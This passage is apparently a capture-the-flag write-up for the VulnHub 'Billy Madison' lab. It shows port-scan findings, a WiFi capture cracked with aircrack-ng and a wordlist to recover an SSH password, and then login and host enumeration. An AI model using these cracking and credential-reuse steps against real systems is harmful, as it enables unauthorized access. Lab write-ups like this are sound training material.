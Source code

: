### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  tcpwrapped   |
23/tcp    |  telnet?      |
69/tcp    |  caldav       |  Radicale calendar and contacts server (Python BaseHTTPServer)
80/tcp    |  http         |  Apache httpd 2.4.18 ((Ubuntu))
139/tcp   |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   |  netbios-ssn  |  Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
2525/tcp  |  smtp         |  SubEtha smtpd
```
#### Files
``` {.python .numberLines}
http://192.168.92.167/exschmenuating
http://192.168.92.167/exschmenuating/012987veronica.cap
```
#### Users
``` {.python .numberLines}
ssh: eric, veronica
```

\newpage
## Phase #2: Exploitation
1\. From the storyline so far, user `eric` has reused WiFi password for SSH login. We need to extract the WiFi password from `eg-01.cap` file. We run an `aircrack` scan on the file and get SSH password:  
``` {.python .numberLines}
aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt → triscuit*

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot12.png)  

2\. We login as user `eric` to the SSH backdoor and gain initial shell access:  
``` {.python .numberLines}
ssh -p1974 eric@192.168.92.167

```

![writeup.exploitation.steps.2.1](Box%20Write-ups/vulnhub.billymadison1dot1/writeup.exploitation.screenshot.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
eric@BM> id
uid=1002(eric) gid=1002(eric) groups=1002(eric)
eric@BM>  
eric@BM> uname
Linux BM 4.4.0-36-generic #55-Ubuntu SMP Thu Aug 11 18:01:55 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
eric@BM>  
eric@BM> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:1a:ed:6c  
      inet addr:192.168.92.167  Bcast:192.168.92.255  Mask:255.255.255.0
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:10919 errors:0 dropped:0 overruns:0 frame:0
      TX packets:342 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000 
      RX bytes:742406 (742.4 KB)  TX bytes:39258 (39.2 KB)
eric@BM>  
eric@BM> users
billy
veronica
```